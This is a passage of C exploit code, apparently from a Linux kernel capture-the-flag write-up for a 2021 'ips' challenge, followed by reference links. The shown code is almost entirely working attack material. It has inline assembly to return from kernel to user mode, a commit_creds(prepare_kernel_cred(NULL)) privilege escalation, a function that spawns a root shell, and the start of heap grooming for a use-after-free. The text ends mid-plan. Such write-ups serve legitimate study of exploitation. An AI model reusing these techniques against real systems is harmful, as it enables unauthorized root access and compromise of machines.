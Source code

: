 ```c
            "mov rax, user_sp;"
            "push rax;"
            "mov rax, user_rflags;"
            "push rax;"
            "mov rax, user_cs;"
            "push rax;"
            "mov rax, back2root;"
            "push rax;"
            "swapgs;"
            "push 0;"
            "popfq;"
            "iretq;"
            );
            
}
void getRootPrivilige(void)
{
    void * (*prepare_kernel_cred_ptr)(void *) = prepare_kernel_cred;
    int (*commit_creds_ptr)(void *) = commit_creds;
    (*commit_creds_ptr)((*prepare_kernel_cred_ptr)(NULL));
    back2user();
}

void getRootShell(void)
{   
    if(getuid())
    {
        printf("\033[31m\033[1m[x] Failed to get the root!\033[0m\n");
        exit(-1);
    }

    printf("\033[32m\033[1m[+] Successful to get the root. Execve root shell now...\033[0m\n");
    stop();
    execve("/bin/sh",0,0);
    
}
size_t back2root = getRootShell;
int main()
{

    char *atk = malloc(0x1000);
    memset(atk,'\1',0x1000);
    size_t *hook = &atk[0xfd0];
    hook[0] = 0xdeadbeefdeadbeef;
    hook[1] = 1;
    hook[2] = 2;
    hook[3] = 3;
    // int mx = open("/dev/ptmx",O_RDWR|O_NOCTTY);
    // printf("%d\n",mx);
    char *ctx = calloc(1,0x200);
    memcpy(ctx,"Hi IPS!",8);
    add(ctx,0xffff);
    for(int i=0;i<16;i++){
        copy(0);
    }
    // Now we have one-ptr-off, it's at list[-1].
    // It has to be a copied chunk so we can use "delete" to free it
    // To exploit, UAF is a feasible way. However,   
    // the only way to operate it in the program is "edit".
    // which can modify the data at list[-1].offset(0xe), the max length is 114 bytes

    // Here is a straightforward way to exploit
    // 1. Free the target
```

[1]: https://elixir.bootlin.com/linux/latest/source/fs/seq_file.c
[2]: https://elixir.bootlin.com/linux/latest/source/ipc/msg.c
[3]: https://duasynt.com/blog/linux-kernel-heap-feng-shui-2022
[4]: https://arttnba3.cn/2021/11/29/PWN-0X02-LINUX-KERNEL-PWN-PART-II/
[5]: https://github.com/sajjadium/ctf-archives/tree/0328b950496e5d12b775e8bd67d1569977ec10c0/ctfs/VULNCON/2021/pwn/ips